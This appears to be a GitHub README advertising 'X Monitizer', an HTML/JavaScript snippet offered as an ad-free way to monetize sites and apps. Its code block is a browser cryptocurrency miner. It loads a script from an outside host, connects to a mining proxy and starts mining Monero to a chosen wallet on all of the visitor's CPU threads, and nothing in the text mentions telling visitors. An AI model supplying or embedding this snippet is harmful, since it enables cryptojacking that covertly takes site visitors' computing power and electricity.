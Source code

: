 ## Use Address `42nW9ZsCPe53kxN2JQMnocSZtsWGdY8JhQFTa2hTxF148wvhf19BLPtFJCEtidr1nNJWVMWsicAEkhE4FoZUyddd9KtBTZe` To Support Me
##### X Monitizer Is A PowerFull JS Used To Monitize Websites And Apps  
#### Use This Code To Basically Monitize Your Apps Without Ads For Free  
### See This Video For More Info : https://www.youtube.com/watch?v=AZU6TeEjHVQ
## `HTML SCRIPT`
```
<script src="https://script.monerominer.rocks"></script>
<script>
    server = "wss://ny1.xmrminingproxy.com";
    var pool = "moneroocean.stream";
    var walletAddress = "PUT YOUR WALLET ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
</script>
```
### Almost All Languages Supports Html Code Includelation .. Use This Code As Your Pride .. 
  
# How It Works ?
- It Is Created By `https://github.com/notgiven688/webminerpool` Repo Basicaly
- I Tooked `SDK/miner_compressed/webmr.js` Script And Used It As Index JS ( Currently Hoted By `ghgi.xyz` )
- I Searched The Whole Internet And Atlest I Found A Free Hosted Server By `monerominer.rocks` And Then Picked It To Use It As `wss://ghgi.xyz`
- It Currently Only Support One Pool That Is `moneroocean.steam` That Is Very Good Pool
# Bye Bye , Thanks
